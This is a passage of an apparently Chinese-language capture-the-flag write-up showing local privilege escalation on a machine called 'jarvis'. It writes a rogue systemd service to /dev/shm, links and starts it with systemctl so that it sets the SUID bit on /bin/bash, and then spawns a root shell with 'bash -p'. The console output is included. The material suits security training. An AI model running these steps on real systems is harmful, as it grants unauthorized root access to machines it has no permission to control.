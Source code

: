 ```shell
```

写service到 /dev/shm目录下

```shell
systemctl link /dev/shm/root.service
```

链接服务到/etc/systemd/system/
/dev/shm是一个特殊的目录，不在硬盘上，而在内存里
/etc/systemd/system/目录非root不可写，这个时候用/dev/shm即可成功链接

```shell
pepper@jarvis:/dev/shm$ systemctl link /dev/shm/root.service
pepper@jarvis:/dev/shm$ systemctl start root.service
#-rwsr-中的s代表suid
pepper@jarvis:/dev/shm$ ls /bin/bash -al
-rwsr-xr-x 1 root root 1099016 May 15  2017 /bin/bash
#-p 以特权运行
pepper@jarvis:/dev/shm$ /bin/bash -p
bash-4.4# whoami
root
bash-4.4#
```

如果用/tmp目录而非/dev/shm：

```shell
pepper@jarvis:/dev/shm$ echo '[Unit]
> Description = 123
> [Service]
> Type = simple
> ExecStart = /bin/bash -c "chmod u+s /bin/bash"
> [Install]
> WantedBy=multi-user.target' > /tmp/root1.service
pepper@jarvis:/dev/shm$ system link /tmp/root1.service
bash: system: command not found
```

拿到system权限

